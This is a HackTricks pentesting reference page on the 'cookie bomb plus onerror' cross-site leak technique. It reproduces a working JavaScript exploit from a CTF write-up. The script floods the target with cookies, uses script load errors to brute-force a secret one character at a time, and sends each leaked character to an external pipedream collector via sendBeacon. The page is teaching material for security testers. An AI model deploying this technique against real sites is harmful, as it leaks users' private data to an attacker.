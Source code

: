 # Cookie Bomb + Onerror XS Leak

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **insert any amount of cookies**, and then loading a file as a script knowing that the true response will be larger than the false one and then. If successful, the response is a redirect with a resulting URL longer, **too large to handle by the server so return an error http status code**. If the search fails, nothing will happen because URL is short.

```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
    const $ = document.querySelector.bind(document);
    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
    let i = 0;
    const stuff = async (len=3500) => {
        let name = Math.random();
        $("form").target = name;
        let w = window.open('', name);
        $("#f").value = "_".repeat(len);
        $("#f").name = i++;
        $("form").submit();
        await sleep(100);
    };
    const isError = async (url) => {
        return new Promise(r => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => r(false);
            script.onerror = () => r(true);
            document.head.appendChild(script);
        });
    }
    const search = (query) => {
        return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
    };
    const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
    const url = "//en4u1nbmyeahu.x.pipedream.net/";
    let known = "actf{";
    window.onload = async () => {
        navigator.sendBeacon(url + "?load");
        await Promise.all([stuff(), stuff(), stuff(), stuff()]);
        await stuff(1600);
        navigator.sendBeacon(url + "?go");
        while (true) {
            for (let c of alphabet) {
                let query = known + c;
                if (await search(query)) {
                    navigator.sendBeacon(url, query);
                    known += c;
                    break;
                }
            }
        }
    };
</script>
```







<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
